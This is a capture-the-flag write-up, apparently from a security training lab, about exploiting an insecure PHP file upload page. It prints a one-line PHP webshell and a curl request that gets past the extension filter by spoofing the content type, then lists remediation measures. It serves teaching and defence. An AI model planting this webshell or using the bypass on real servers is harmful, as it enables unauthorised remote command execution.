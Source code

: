 # Arbitrary File Upload
## Exploration

During our research, we discovered a file upload functionality on the `upload` page. An insecure
file upload can have severe consequences for a web application if not properly implemented, remote command execution being the worst scenario.

We attempted to perform a basic file upload using an image called `fleur.jpg`:

![Screenshot 2024-05-01 at 7.20.09 PM.png](images/Capture_decran_2024-05-01_a_19.20.09.png)

The file seems to be saved on the server, under the path `/tmp/fleur.jpg`

## Exploitation

We then tried uploading a PHP [webshell](https://fr.wikipedia.org/wiki/Backdoor_(computing)),
since the app is in PHP:

```bash
~ echo '<?php system($_GET["cmd"])?>' >> webshell.php
```

Unfortunately, it appears that there are protections, and we were unable to upload this file due
to its extension:

![Screenshot 2024-05-01 at 7.27.29 PM.png](images/Capture_decran_2024-05-01_a_19.27.29.png)

We also attempted to modify the file name, for instance with `webshell.jpg.php`, in case there was
a poorly configured regex expecting `.jpg` in the filename, but this did not work either.

However, we were successful in uploading this file by modifying its content type as `image/jpeg`:

```bash
curl -X POST 'http://192.168.64.36/index.php?page=upload' --form 'MAX_FILE_SIZE=100000' --form
'uploaded=@webshell.php;filename=webshell.php;type=image/jpeg' --form 'Upload=Upload' | grep flag
[... TRUNCATED DATA ...]
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
[... TRUNCATED DATA ...]
/tmp/webshell.php uploaded successfully.
```

And we obtained the flag.

## Remediation

A successful arbitrary file upload can lead to the worst-case scenario: remote command execution
on the server.

Here are some possible countermeasures for this vulnerability:

- Validate file extensions by implementing a whitelist of allowed extensions
- Analyze the MIME type and implement a corresponding whitelist
- Rename the downloaded file using a UUID
- Store files on a dedicated server, outside of the web application.
